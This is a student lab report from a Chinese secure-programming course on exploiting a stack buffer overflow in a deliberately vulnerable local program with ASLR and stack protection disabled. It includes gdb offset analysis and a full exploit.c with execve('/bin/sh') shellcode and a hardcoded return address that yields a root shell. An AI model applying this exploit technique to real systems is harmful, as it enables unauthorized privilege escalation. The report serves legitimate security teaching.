










<center><font face="Arial" size="6">Buffer Overflow Vulnerability</font>


<center>
    <font face="楷体" size="5">姓名：欧翌昕</font>
</center>

<center>
    <font face="楷体" size="5">专业：软件工程</font>
</center>
<center>
    <font face="楷体" size="5">学号：3190104783</font>
</center>

<center>
    <font face="楷体" size="5">课程名称：安全编程技术</font>
</center>
<center>
    <font face="楷体" size="5">指导老师：胡天磊</font>
</center>


<center>
    </font><font face="黑体" size="5">2020~2021春夏学期 2021 年 6 月 11 日</font>
</center>


# 1 实验目的

本实验的学习目标是将课堂上学到的关于缓冲区溢出漏洞的知识付诸实践，从而获得有关缓冲区溢出漏洞的第一手经验。 缓冲区溢出被定义为程序试图将数据写入超出预先分配的固定长度缓冲区边界的情况。 恶意用户可以利用此漏洞来改变程序的流量控制，甚至执行任意代码段。 这个漏洞是由于数据存储（例如缓冲区）和控件存储（例如返回地址）混合造成的：数据部分的溢出会影响程序的控制流，因为溢出可以改变返回地址。

在本实验中，我们将获得一个具有缓冲区溢出漏洞的程序； 任务是开发一个利用漏洞的方案，并最终获得 root 权限。

# 2 实验平台



# 3 实验内容与步骤

本次实验采用32位 Ubuntu 使用的传参方式对源代码进行编译。

首先在 `\etc\apt\sources.list` 中修改镜像源配置为：

```
deb http://old-releases.ubuntu.com/ubuntu/ precise main restricted universe multiverse
deb http://old-releases.ubuntu.com/ubuntu/ precise-security main restricted universe
multiverse
deb http://old-releases.ubuntu.com/ubuntu/ precise-updates main restricted universe
multiverse
deb http://old-releases.ubuntu.com/ubuntu/ precise-proposed main restricted universe
multiverse
deb http://old-releases.ubuntu.com/ubuntu/ precise-backports main restricted universe
multiverse
```

然后安装安装32位的编译方式和必要的组件，结果如下图所示：



Ubuntu 和其他 Linux 发行版已经实施了多种安全机制来使缓冲区溢出攻击变得困难。 为了简化我们的攻击，我们需要先禁用它们。

Ubuntu 和其他几个基于 Linux 的系统使用地址空间随机化来随机化堆和堆栈的起始地址。 这使得猜测确切地址变得困难，而猜测地址是缓冲区溢出攻击的关键步骤之一。 在本实验中，我们禁用这些功能结果如下图所示：



要创建易受攻击的程序，创建以下内容的 C 文件：



GCC 编译器实现了一种称为“堆栈保护”的安全机制，以防止缓冲区溢出。 在存在这种保护的情况下，缓冲区溢出将不起作用。 可以在使用开关 -fno-stack-protector 编译程序时禁用此保护。

编译生成可执行文件 stack，使用的命令如下：

```shell
$gcc -g -z execstack -fno-stack-protector -o stack stack.c
```

使用 gdb 调试可执行程序 stack。



使用 disass 命令来查看 `bof` 函数的汇编代码，结果如下图所示：



strcpy 传入的参数包括 str 和 buffer 两个指针，根据从右到左的压栈顺序可知 buffer 对应的地址存放在 0x08048491 处的寄存器 eax 中。在此处设置断点并启动运行，结果如下图所示：



查看寄存器 eax 中存放的值即 buffer 对应的地址，结果如下图所示：



同理，设置断点查地址 0x08048485 处的寄存器 esp 中的值，结果如下图所示：



因为 ebf 也被压入堆栈，所以 bof 的返回地址为 0xbffff128。计算 bof 初始地址与返回地址的差值为 0xbffff128 + 4 - 0xbffff114 = 24。如果参数 buffer 需要覆盖掉返回地址，那么需要修改 buffer+24 处的返回地址。

因此，可以在buffer+24 处填入返回地址，返回的地址指向 shellcode 存放的地址，假设为 buffer+0x100 处即 0xbffff114 + 0x100 = 0xbffff214。

编写以下溢出攻击代码：

```c
/*exploit.c*/
/*A program that creates a file containing code for launching shell*/
#include <stdlib.h>
#include <stdio.h>
#include <string.h>
/*Shellcode as follow is for linux 32bit. If your linux is a 64bit system, you need to replace "code[]" with the 64bit shellcode we talked above.*/
const char code[] =
  "\x31\xc0" /*Line 1: xorl %eax,%eax*/
  "\x50" /*Line 2: pushl %eax*/
  "\x68""//sh" /*Line 3: pushl $0x68732f2f*/
  "\x68""/bin" /*Line 4: pushl $0x6e69622f*/
  "\x89\xe3" /*Line 5: movl %esp,%ebx*/
  "\x50" /*Line 6: pushl %eax*/
  "\x53" /*Line 7: pushl %ebx*/
  "\x89\xe1" /*Line 8: movl %esp,%ecx*/
  "\x99" /*Line 9: cdq*/
  "\xb0\x0b" /*Line 10: movb $0x0b,%al*/
  "\xcd\x80" /*Line 11: int $0x80*/
  ;
void main(int argc, char **argv) { 
  char buffer[517]; 
  FILE *badfile;
  
  /* Initialize buffer with 0x90 (NOP instruction) */
  memset(&buffer, 0x90, 517);
  
  strcpy(buffer+24, "\x14\xf2\xff\xbf");
  strcpy(buffer+100, code);
  
  /* Save the contents to the file "badfile" */
  badfile = fopen("./badfile", "w");
  fwrite(buffer, 517, 1, badfile);
  fclose(badfile);
  }
```

编译后按如下方式运行，成功得到系统的 shell，结果如下图所示：


